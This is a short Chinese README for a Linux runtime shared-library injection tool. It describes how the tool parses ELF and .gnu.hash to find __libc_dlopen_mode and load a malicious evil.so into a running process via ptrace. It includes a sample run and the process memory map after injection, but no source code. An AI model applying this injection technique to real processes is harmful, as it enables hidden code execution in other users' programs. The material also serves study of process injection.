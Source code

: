 ## InejctRuntimeELF

Ref: [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

代码规范, 参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容.

#### usage

```
➜  InjectRuntimeELF sudo ./inject 6380 /vagrant/evilELF/InjectRuntimeELF/example/evil.so
[*] attached to pid 6380
[*] dump runtime infomation
[*] header (ignore...)
[*] dynamic:
    dynsym: 0x80481cc
    dynstr: 0x804821c
    gnuhash: 0x80481ac
    nbuckets: 2
    nmaskwords: 1
[*] start search '__libc_dlopen_mode':
[+] search libaray path: /lib/i386-linux-gnu/libc.so.6
[*] start gnu hash search:
    new_hash: 0x80498e8(4073429154)
    n: 197
    hash buckets index: 0x3c6(966), first dynsym index: 0x8f5(2293)
[*] start bucket search:
    h2: 0xd5e07632(3588257330)
    h2: 0xf2cb98a2(4073429154)
[+] Found '__libc_dlopen_mode' at 0xb768fae0
test.1: 134513440
[+] entry point: 0x8048320
[+] stopped 6380 at eip:0xb7725428, esp:0xbfe7202c
[+] inject code done 6380 at eip:0x8048336
[*] start search 'evilfunc':
[+] search libaray path: /lib/i386-linux-gnu/libc.so.6
[*] start gnu hash search:
    new_hash: 0x8049939(701380385)
    n: 441
[+] search libaray path: /lib/ld-linux.so.2
ptrace(PTRACE_PEEKTEXT) failed
[*] start gnu hash search:
    new_hash: 0x8049939(701380385)
    n: 1
[+] search libaray path: /vagrant/evilELF/InjectRuntimeELF/example/evil.so
[*] start gnu hash search:
    new_hash: 0x8049939(701380385)
    n: 1
    hash buckets index: 0x2(2), first dynsym index: 0xb(11)
[*] start bucket search:
    h2: 0x29ce3720(701380384)
[+] Found 'evilfunc' at 0xb772053b
[*] lib injection done!
```

查看pid对应maps可以查看到已经加载了恶意的so

```
➜  InjectRuntimeELF cat /proc/6380/maps
08048000-08049000 r-xp 00000000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
08049000-0804a000 r--p 00000000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
0804a000-0804b000 rw-p 00001000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
09aef000-09b10000 rw-p 00000000 00:00 0          [heap]
b756b000-b756c000 rw-p 00000000 00:00 0
b756c000-b7714000 r-xp 00000000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7714000-b7715000 ---p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7715000-b7717000 r--p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7717000-b7718000 rw-p 001aa000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7718000-b771b000 rw-p 00000000 00:00 0
b7720000-b7721000 r-xp 00000000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7721000-b7722000 r--p 00000000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7722000-b7723000 rw-p 00001000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7723000-b7725000 rw-p 00000000 00:00 0
b7725000-b7726000 r-xp 00000000 00:00 0          [vdso]
b7726000-b7746000 r-xp 00000000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7746000-b7747000 r--p 0001f000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7747000-b7748000 rw-p 00020000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
bfe52000-bfe73000 rw-p 00000000 00:00 0          [stack]
```

#### 参考链接:

[PWN之ELF解析](https://github.com/jmpews/dev2pwn/blob/master/PWN%E4%B9%8BELF%E8%A7%A3%E6%9E%90.md)

[linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

#### 利用点

TODO

